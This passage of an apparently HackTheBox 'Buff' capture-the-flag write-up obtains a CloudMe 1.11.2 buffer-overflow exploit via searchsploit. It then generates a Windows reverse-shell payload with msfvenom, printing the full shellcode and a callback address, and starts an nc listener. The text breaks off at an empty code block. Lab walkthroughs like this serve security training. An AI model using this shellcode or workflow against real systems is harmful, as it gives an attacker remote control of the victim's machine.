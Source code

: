 [**Attacker Machine**]

let's download shell.
```shell
ezi0x00@kali:~/HTB/Buff$ searchsploit -m windows/remote/48389.py
  Exploit: CloudMe 1.11.2 - Buffer Overflow (PoC)
      URL: https://www.exploit-db.com/exploits/48389
     Path: /usr/share/exploitdb/exploits/windows/remote/48389.py
File Type: ASCII text, with CRLF line terminators

Copied to: /home/ezi0x00/HTB/Buff/48389.py


ezi0x00@kali:~/HTB/Buff$ mv 48389.py cloudme_exploit
```
if you reveiw the shell he gives you a `Bad Chars` but doesn't a shell so let's make a shell payload by `msfvenom`
```shell
ezi0x00@kali:~/HTB/Buff$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.11 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1869 bytes
payload =  b""
payload += b"\xbd\xba\x95\x4d\xc5\xd9\xed\xd9\x74\x24\xf4\x5a"
payload += b"\x29\xc9\xb1\x52\x83\xc2\x04\x31\x6a\x0e\x03\xd0"
payload += b"\x9b\xaf\x30\xd8\x4c\xad\xbb\x20\x8d\xd2\x32\xc5"
payload += b"\xbc\xd2\x21\x8e\xef\xe2\x22\xc2\x03\x88\x67\xf6"
payload += b"\x90\xfc\xaf\xf9\x11\x4a\x96\x34\xa1\xe7\xea\x57"
payload += b"\x21\xfa\x3e\xb7\x18\x35\x33\xb6\x5d\x28\xbe\xea"
payload += b"\x36\x26\x6d\x1a\x32\x72\xae\x91\x08\x92\xb6\x46"
payload += b"\xd8\x95\x97\xd9\x52\xcc\x37\xd8\xb7\x64\x7e\xc2"
payload += b"\xd4\x41\xc8\x79\x2e\x3d\xcb\xab\x7e\xbe\x60\x92"
payload += b"\x4e\x4d\x78\xd3\x69\xae\x0f\x2d\x8a\x53\x08\xea"
payload += b"\xf0\x8f\x9d\xe8\x53\x5b\x05\xd4\x62\x88\xd0\x9f"
payload += b"\x69\x65\x96\xc7\x6d\x78\x7b\x7c\x89\xf1\x7a\x52"
payload += b"\x1b\x41\x59\x76\x47\x11\xc0\x2f\x2d\xf4\xfd\x2f"
payload += b"\x8e\xa9\x5b\x24\x23\xbd\xd1\x67\x2c\x72\xd8\x97"
payload += b"\xac\x1c\x6b\xe4\x9e\x83\xc7\x62\x93\x4c\xce\x75"
payload += b"\xd4\x66\xb6\xe9\x2b\x89\xc7\x20\xe8\xdd\x97\x5a"
payload += b"\xd9\x5d\x7c\x9a\xe6\x8b\xd3\xca\x48\x64\x94\xba"
payload += b"\x28\xd4\x7c\xd0\xa6\x0b\x9c\xdb\x6c\x24\x37\x26"
payload += b"\xe7\x41\xc2\x38\xfc\x3d\xd0\x38\x03\x05\x5d\xde"
payload += b"\x69\x69\x08\x49\x06\x10\x11\x01\xb7\xdd\x8f\x6c"
payload += b"\xf7\x56\x3c\x91\xb6\x9e\x49\x81\x2f\x6f\x04\xfb"
payload += b"\xe6\x70\xb2\x93\x65\xe2\x59\x63\xe3\x1f\xf6\x34"
payload += b"\xa4\xee\x0f\xd0\x58\x48\xa6\xc6\xa0\x0c\x81\x42"
payload += b"\x7f\xed\x0c\x4b\xf2\x49\x2b\x5b\xca\x52\x77\x0f"
payload += b"\x82\x04\x21\xf9\x64\xff\x83\x53\x3f\xac\x4d\x33"
payload += b"\xc6\x9e\x4d\x45\xc7\xca\x3b\xa9\x76\xa3\x7d\xd6"
payload += b"\xb7\x23\x8a\xaf\xa5\xd3\x75\x7a\x6e\xe3\x3f\x26"
payload += b"\xc7\x6c\xe6\xb3\x55\xf1\x19\x6e\x99\x0c\x9a\x9a"
payload += b"\x62\xeb\x82\xef\x67\xb7\x04\x1c\x1a\xa8\xe0\x22"
payload += b"\x89\xc9\x20"
```
let's listen by `nc` then run a payload
```shell
ezi0x00@kali:~/HTB/Buff$ sudo nc -nlvp 443
listening on [any] 443 ...
```
```shell
```